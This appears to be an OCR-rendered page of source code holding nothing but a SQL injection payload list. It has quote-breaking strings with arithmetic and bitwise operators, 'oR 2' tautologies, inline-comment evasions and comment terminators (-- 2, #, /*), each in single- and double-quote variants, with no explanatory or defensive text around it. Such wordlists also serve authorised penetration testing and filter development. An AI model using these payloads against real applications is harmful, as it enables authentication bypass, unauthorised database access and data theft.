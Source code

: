                 ')-''#
                ')-''/*
                ')&''-- 2
                ')&''#
                ')&''/*
                ')^''-- 2
                ')^''#
                ')^''/*
                ')*''-- 2
                ')*''#
                ')*''/*
                ')=''-- 2
                ')=''#
                ')=''/*
                0')&lt;'2'-- 2
                0')&lt;'2'#
                0')&lt;'2'/*
                ")-""-- 2
                ")-""#
                ")-""/*
                ")&""-- 2
                ")&""#
                ")&""/*
                ")^""-- 2
                ")^""#
                ")^""/*
                ")*""-- 2
                ")*""#
                ")*""/*
                ")=""-- 2
                ")=""#
                ")=""/*
                0")&lt;"2-- 2
                0")&lt;"2#
                0")&lt;"2/*
                'oR'2
                'oR'2'-- 2
                'oR'2'#
                'oR'2'/*
                'oR'2'oR'
                'oR(2)-- 2
                'oR(2)#
                'oR(2)/*
                'oR(2)oR'
                'oR 2-- 2
                'oR 2#
                'oR 2/*
                'oR 2 oR'
                'oR/**/2-- 2
                'oR/**/2#
                'oR/**/2/*
                'oR/**/2/**/oR'
                "oR"2
                "oR"2"-- 2
                "oR"2"#
                "oR"2"/*
                "oR"2"oR"
                "oR(2)-- 2
                "oR(2)#
                "oR(2)/*
                "oR(2)oR"
                "oR 2-- 2
                "oR 2#
                "oR 2/*
